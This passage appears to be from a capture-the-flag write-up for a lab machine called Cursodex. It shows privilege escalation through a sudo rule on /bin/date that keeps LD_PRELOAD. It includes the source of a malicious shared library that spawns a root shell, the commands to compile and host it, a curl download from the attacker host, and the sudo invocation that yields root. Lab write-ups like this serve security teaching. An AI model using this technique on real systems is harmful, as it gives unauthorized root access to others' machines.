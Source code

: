 We can execute the `date` binary as the `root` user. According to GTFOBins, this allows privileged file reading, but in this case, it will not be useful. We should pay attention to the `env_keep+=LD_PRELOAD` option, which will allow us to inject a malicious library.

We create and compile a library on our attacking machine, then start an HTTP service to share the binary.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ cat exploit.c                        
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
                                                    
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ gcc -shared -fPIC -o exploit.so exploit.c
                                                    
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ python3 -m http.server 80
```

On our victim machine, we download the `exploit.so` binary using `curl` and save it to `/tmp`.

```bash
curl -o /tmp/exploit.so http://192.168.1.181/exploit.so
```

and we execute `date` with `sudo`, using our library through the `LD_PRELOAD` environment variable.

```bash
sudo LD_PRELOAD=/tmp/exploit.so /bin/date
```

We obtain a shell as the `root` user and can read the flag:

```bash
root@cursodex:/tmp# ls /root
root?????.txt
root@cursodex:/tmp# cat /root/root?????.txt 
8?????????????????????????????
```

I hope you enjoyed it and learned something new.
